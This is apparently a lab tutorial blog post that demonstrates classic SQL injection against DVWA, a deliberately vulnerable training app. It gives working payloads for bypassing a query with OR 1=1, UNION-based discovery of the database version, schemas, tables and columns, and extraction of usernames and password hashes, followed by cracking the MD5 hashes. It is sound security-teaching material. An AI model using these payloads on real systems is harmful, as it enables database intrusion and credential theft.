 ```yaml
---
title: SQL Injection
description: How to exploit sql injection vulnerability.
author: Kalidou DIA
date: 2024-02-25
updated: Feb, 25 2024
img: /img/sql_classic/sql_injection.jpeg
read: 5
border: border-sky-700
tags:
  - 
    name: Hack
    class: bg-gray-400 hover:bg-red-800
---
```


# <center>CLASSIC SQL INJECTION - EXPLOIT</center>

![alt text](/img/sql_classic/sql_injection.jpeg#center)

### <center>In this tutorial, we'll look at how to exploit a SQL injection vulnerability.</center>
<div style="text-align: right" class="date-update">
Last update :  Feb, 25 2024
</div>


________________________________________________________________
## 1. Presentation



The website in question contains a lot of vulnerabilities. In a way, it is a laboratory for exploiting and testing vulnerabilities.
The vulnerability we are going to describe in the following lines is "SQL injection". More information :[ click here to view](https://www.kaspersky.fr/resource-center/definitions/sql-injection)
<p>The technologies used on this website are :</p>

![alt text](/img/sql_classic/techno_site.png#center)

Description of interaction with website visitors
<li>1. We ask the visitor to enter a user id</li>
<li>2. The server then returns the "First name" and "Surname" of the corresponding id.</li>
<br>

![alt text](/img/sql_classic/gordon_screen.png#center)

________________________________________________________________
## 2. How the website works ?

### 2.1 Let's see how the site behaves when you enter values it doesn't expect
<div class="flex flex-col md:flex-row gap-10 justify-between">
    <div class="mx-4">
        <p>Enter a character string with quotes instead of an integer</p>
        <img src="/img/sql_classic/coucou.png"/>
    </div>
    <div class="mx-4">
        <p>The server processes the request correctly and returns a code 200 to say that everything is fine. Which is abnormal.</p>
        <img src="/img/sql_classic/coucou_response.png"/>
    </div>
</div>
<br><br>

### 2.2 Let's see if the sql injection works.
To do this, we're going to guess (thanks to the technology used on this site) the SQL query that is used to retrieve the information displayed.
After several tests, we deduce that the query in question could look like this:

```sql
SELECT colonne1, colonne2
FROM nom_de_la_table 
WHERE id = '$id';
```
The *id* field is our input that has been sent to the server. This is the field we're going to use to change the SQL query.

To do this, we're going to put in a character string that will return all the lines.
The string in question is as follows:  `` ' OR 1=1 -- - ``
<p> As a result, the query will be : </p>

```sql
SELECT colonne1, colonne2
FROM nom_de_la_table
WHERE id = '' OR 1=1 -- - ' ;
```

This query will return the rows of the table concerned because the condition `` WHERE id='' OR 1=1 `` is always true. The characters "<span style="color:#FF5733">-- -</span>" are used to comment out the rest of the request, which will not be executed.

![alt text](/img/sql_classic/exploit1.png#center)

The SQL injection passes and the table information is displayed.
<br>

________________________________________________________________
## 3. Extract more information

We are sure that the site is vulnerable to SQL injection.
Let's try to get some more information.

### 3.1 Database version

By running a few tests, we know that there are two columns being requested in the query.
As a result, our input will take this value : ``' UNION SELECT NULL,version()-- -``



The query will look like this: 
```sql
SELECT colonne1, colonne2
FROM nom_de_la_table
WHERE  id = '' UNION SELECT NULL,version()-- - '
```

``version()`` or ``@@version`` is a system variable found in most SQL databases.


![alt text](/img/sql_classic/version.png#center)
The image above shows that this is a mariaDB.
<br>

### 3.2 Database schemas

Our input here will take the following value: ``' UNION SELECT concat(schema_name),1 from information_schema.schemata -- - ``


``schema_name `` is also a system variable. So the schematics will be displayed in the first column and the value 1 in the second
We can see from the screenshot below that we have 2 comics: **dvwa'** and **information_schema**.

The database of interest to us is dvwa

![alt text](/img/sql_classic/schema.png#center)
<br>

### 3.3 Extract tables from the dvwa DB

input  :  <span style = "color : #FF5733 ">
``' UNION SELECT concat(TABLE_NAME),1 from information_schema.TABLES WHERE table_schema='dvwa' -- -``
</span>

**TABLE_NAME** is also a system variable
We can see that the dvwa DB contains two tables: users and guestbook

![alt text](/img/sql_classic/tables.png#center)
<br>

### 3.4 Extract columns from users table

input  :  <span style = "color : #FF5733 ">
``' UNION SELECT concat(COLUMN_NAME),1 from information_schema.COLUMNS WHERE TABLE_NAME='users' -- -``
</span>

**COLUMN_NAME** is also a system variable
The users table columns are :
    <li>user_id</li>
    <li>first_name</li>
    <li>last_name</li>
    <li>user</li>
    <li>password</li>
    <li>avatar</li>
    <li>last_login</li>
    <li>failed_login</li>

![alt text](/img/sql_classic/columns.png#center)
<br>

### 3.5 Extract all names and passwords

input  :  <span style = "color : #FF5733 ">
``'  UNION SELECT concat(0x28,first_name,0x3a,last_name,0x3a,password,0x29),1 from users -- -``
</span>

We use the ``concat()`` function to format and display as much information as we want.
<p>The characters <span style="color: #E85320"> 0x28 0x3a 0x29 </span> are respectively the ASCII representations of <span style="color: #E85320;"> <i>(</i> </span>, <span style="color: #E85320;"> <i>:</i> </span>  and <span style="color: #E85320;"> <i>)</i> </span> converted to hexadecimal. They are used for formatting</p>

The image below shows the various items of information recovered.
![alt text](/img/sql_classic/lines.png#center)
<br>

________________________________________________________________
## 4. Cracking passwords

Note that the passwords are hashed. The hash used looks like MD5 (32 characters).
<p>To crack passwords, let's use <a href="https://www.openwall.com/john/">John the Ripper</a> or an online password cracker : <a href="https://md5decrypt.net/">MD5 decrypt</a></p>

![alt text](/img/sql_classic/decrypt_password.png)

The unencrypted passwords are shown in the image above.
